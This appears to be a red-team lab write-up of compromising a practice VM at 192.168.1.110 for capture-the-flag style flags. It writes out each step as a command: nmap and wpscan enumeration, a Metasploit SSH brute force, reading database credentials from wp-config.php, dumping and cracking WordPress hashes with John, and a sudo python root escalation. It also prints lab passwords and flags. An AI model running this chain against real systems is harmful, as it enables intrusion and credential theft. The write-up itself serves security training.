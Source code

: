 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167322975-5349cecb-c273-4a42-b673-84b126b66bb3.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323054-f8c2b10b-e834-45a1-bf7f-1283fe656693.PNG)

			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167322697-b6a57985-93ba-4480-87b8-1155fb5ec86e.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167322753-bc60b2cf-8925-423d-aaef-10d562a389a3.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167322783-4532f436-9483-4d4d-9c7b-35467c6147fd.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167322800-4b27040c-e4e8-4bfb-92a7-888fa5753e72.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;

	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
